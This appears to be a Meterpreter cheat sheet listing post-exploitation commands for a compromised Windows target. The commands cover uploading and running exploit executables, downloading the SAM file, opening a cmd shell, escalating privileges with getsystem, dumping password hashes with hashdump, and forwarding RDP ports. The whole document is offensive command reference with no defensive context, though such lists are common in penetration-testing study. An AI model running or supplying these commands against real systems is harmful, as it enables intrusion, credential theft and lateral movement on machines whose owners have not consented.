 ## Meterpreter Cheat Sheet

* Useful meterpreter commands

Meterpreter upload file to Windows target
```
upload file c:\\windows
```

Meterpreter download file from Windows target
```
download c:\\windows\\repair\\sam /tmp
```

Meterpreter run .exe on target – handy for executing uploaded exploits
```
execute -f c:\\windows\temp\exploit.exe
```

Creates new channel with cmd shell
```
execute -f cmd -c
```

Meterpreter show processes
```
ps
```

Meterpreter get shell on the target
```
shell
```

Meterpreter attempts priviledge escalation the target
```
getsystem
```

Meterpreter attempts to dump the hashes on the target
```
hashdump
```

Meterpreter create port forward to target machine
```
portfwd add –l 3389 –p 3389 –r target
```

Meterpreter delete port forward
```
portfwd delete –l 3389 –p 3389 –r target
```
